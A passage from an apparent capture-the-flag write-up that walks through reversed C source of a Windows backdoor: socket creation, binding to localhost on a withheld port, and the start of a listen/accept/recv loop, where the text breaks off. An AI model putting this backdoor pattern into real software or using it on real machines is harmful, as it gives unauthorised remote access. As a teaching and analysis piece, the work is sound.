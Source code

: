 ```c
```

Now, scrolling to the juicy part of our code, we can read the few lines that the attacker used to launch a remote socket on the target pc, specifying the necessary parameters.

The following lines demonstrate how the malware creates a socket for the backdoor connection:

```c
// Create the socket for backdoor
sockfd = socket(AF_INET, SOCK_STREAM, 0);
if (sockfd == INVALID_SOCKET) {
    printf("ERROR opening socket\n");
    WSACleanup();
    return 1;
}
```

`socket(AF_INET, SOCK_STREAM, 0)` creates a TCP socket. If the socket creation fails, it prints an error message and cleans up the Winsock environment, `AF_INET` specifies that the socket will use IPv4 addresses, while `SOCK_STREAM` indicates that it will be a stream-oriented socket (TCP).

```c
memset((char *) &serv_addr, 0, sizeof(serv_addr));
serv_addr.sin_family = AF_INET;
serv_addr.sin_addr.s_addr = inet_addr("127.0.0.1"); // Note from author: 127.0.0.1 is your loopback address, you could create a script to test this backdoor on your own pc if you want. You just need to figure out the port.

serv_addr.sin_port = 00000;  // It got lost while reversing the code :(.
// Ressource monitor might be useful they told me.

// Bind the socket to the port
if (bind(sockfd, (struct sockaddr *) &serv_addr, sizeof(serv_addr)) == SOCKET_ERROR) {
    printf("ERROR on binding\n");
    closesocket(sockfd);
    WSACleanup();
    return 1;
}
```

`memset` initializes the socket address structure to zero.
`sin_family` sets the address family (IPv4 in this case).
`sin_addr.s_addr` specifies the IP address of the server, which is set to **127.0.0.1 (localhost)**, meaning the attacker is connecting to the same machine. The port number is not specified in this snippet, which means it needs to be discovered elsewhere (hinted to be found in **Resource Monitor**).

Now to the malicious part of the code:
```c
while (1) {
    listen(sockfd, 5);
    clilen = sizeof(cli_addr);

    // Accept a new connection
    newsockfd = accept(sockfd, (struct sockaddr *) &cli_addr, &clilen);
    if (newsockfd == INVALID_SOCKET) {
        printf("ERROR on accept\n");
        closesocket(sockfd);
        WSACleanup();
        return 1;
    }

    memset(buffer, 0, 256);
    n = recv(newsockfd, buffer, 255, 0);
    if (n == SOCKET_ERROR) {
        printf("ERROR reading from socket\n");
        closesocket(newsockfd);
```
